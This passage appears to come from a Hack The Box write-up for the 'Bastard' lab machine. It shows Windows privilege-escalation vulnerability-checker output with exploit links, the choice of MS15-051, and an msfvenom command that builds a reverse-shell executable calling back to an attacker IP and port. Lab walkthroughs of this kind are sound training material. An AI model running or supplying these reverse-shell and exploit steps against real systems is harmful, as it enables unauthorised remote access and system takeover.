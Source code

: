 ```shell

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable

```

I will be using [`MS15-051`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) to exploit the system.

First create a payload using `msfvenom`.

```bash
kali@kali:~/Desktop/htb/bastard$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8082 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Start a `smb` server to serve the exploit binary and the `msfvenom` payload.
